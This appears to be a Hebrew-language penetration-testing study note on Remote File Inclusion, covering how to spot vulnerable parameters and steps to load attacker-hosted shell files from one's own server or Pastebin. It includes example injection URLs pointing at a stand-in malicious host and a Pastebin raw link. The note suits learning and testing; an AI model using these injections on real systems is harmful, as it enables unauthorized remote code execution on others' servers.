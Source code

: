 RFI - Remote File Inclusion
# המטרה
* לטעון קבצים מרוחקים - אבל זה לא מספיק
* הרצת קוד מרחוק בעקבות קובץ שהעלנו - [[RCE]]
# אינדיקציה
* אם יש קלט בURL שטוען קובץ כלשהו - אם השיטה GET
```
https://pentest.vaadata.com/index.php?page=home
```
* אם יש קלט בגוף הבקשה שטוען משהו - אם הבקשה בPOST
* אם זיהיתי [[LFI]] אז אני אנסה - לטעון קובץ מרוחק
* אם יש קלט בURL שטוען כתובת מרוחקת
```
victim.php?module_name=http://malicious.example.com
```

# ניצול
1) איתור אזור פגיע
2) יצירת קובץ זדוני שנחדיר בנקודת ההזרקה
3) ביצוע ההזרקה
4) הרצת פקודה
### אופציה 1 - שרת משלנו
1. הרמת שרת משלנו בקאלי לינוקס או במחשב הרגיל שלנו
2. יצירת קובץ shell כלשהו
3. טעינת הכתובת של המכונה שלנו
4. ביצוע פקודה כלשהי או אינדיקציה להעלאה כלשהי למערכת הנתקפת

### אופציה 2 - שימוש בpastebin
האתר: https://pastebin.com/
* הוא נותן לנו ליצור קובץ למשל php ואז לטעון אותו מבלי להרים שרת
* ניצור את הpaste
<img width="969" height="250" alt="Pasted image 20250723003202" src="https://github.com/user-attachments/assets/672b2598-d3a8-4fe6-a530-56c79c91230d" />

* ניקח את הכתובת שנוצרה כמו בתמונה
<img width="1334" height="135" alt="Pasted image 20250723003223" src="https://github.com/user-attachments/assets/ae176f0d-6065-4fbc-a5c3-47855c4828ad" />

* ננסה לטעון אותה על הקלט הפגיע
```
http://victim.php?module_name=http://pastebin.com/raw/serqJC55
```
